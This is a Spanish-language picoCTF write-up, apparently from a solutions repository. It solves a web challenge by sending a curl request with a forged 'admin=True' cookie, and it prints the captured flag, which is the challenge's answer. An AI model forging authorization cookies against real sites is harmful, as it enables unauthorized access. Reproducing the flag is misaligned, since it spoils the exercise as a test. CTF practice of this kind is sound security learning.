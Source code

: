 ## Descripcion
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
## Pistas 
****** 
## Solucion
```
jt@jt-VirtualBox:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    929      0  0:00:01  0:00:01 --:--:--   929
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
jt@jt-VirtualBox:~$
```
## bandera
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

## Notas adicionales 

## Referencias